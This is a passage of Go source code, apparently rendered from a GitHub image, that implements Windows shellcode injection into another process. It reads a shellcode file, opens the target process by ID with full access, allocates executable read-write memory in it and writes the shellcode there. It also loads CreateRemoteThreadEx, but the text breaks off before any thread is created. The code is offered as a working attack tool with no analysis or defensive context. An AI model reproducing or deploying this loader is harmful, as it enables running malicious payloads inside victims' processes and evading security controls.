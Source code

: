 ```go
func main(){
  pid := os.Args[1]
  shellcode_file := os.Args[2]

  fmt.Println("Process ID: " + pid)
  fmt.Println("Shellcode file: " + shellcode_file)

  // Convert CLI argument to int
  pid_int, _ := strconv.Atoi(pid)

  // Open given path
  f, err := os.Open(shellcode_file)
  if err != nil {
    log.Fatal(err)
  }
  defer f.Close()

  // Get content as bytes
  shellcode, err := ioutil.ReadAll(f)
  if err != nil {
    log.Fatal(err)
  }

  fmt.Println("Loading DLLs and functions...")
  kernel32 := windows.NewLazyDLL("kernel32.dll")
  OpenProcess := kernel32.NewProc("OpenProcess")
  VirtualAllocEx := kernel32.NewProc("VirtualAllocEx")
  WriteProcessMemory := kernel32.NewProc("WriteProcessMemory")
  CreateRemoteThreadEx := kernel32.NewProc("CreateRemoteThreadEx")
  CloseHandle := kernel32.NewProc("CloseHandle")

  fmt.Println("Calling OpenProcess...")
  procHandle, _, _ := OpenProcess.Call(
    uintptr(0x1F0FFF), // Access to the process (PROCESS_ALL_ACCESS)
    uintptr(0), // FALSE
    uintptr(pid_int), // Process to open
  )

  if procHandle == 0 {
    fmt.Println("An error has ocurred calling OpenProcess")
    os.Exit(0)
  }

  fmt.Println("Allocating memory with RWX permissions...")
  addr, _, _ := VirtualAllocEx.Call(
    uintptr(procHandle),
    0,
    uintptr(len(shellcode)),
    windows.MEM_COMMIT | windows.MEM_RESERVE,
    windows.PAGE_EXECUTE_READWRITE,
  )

  if (addr == 0) {
    fmt.Println("An error has ocurred on VirtualAllocEx!")
    os.Exit(0)
  }

  fmt.Println("Writing shellcode to buffer using WriteProcessMemory...")
  WriteProcessMemory.Call(
    uintptr(procHandle),
    addr,
    (uintptr)(unsafe.Pointer(&shellcode[0])),
    uintptr(len(shellcode)),
```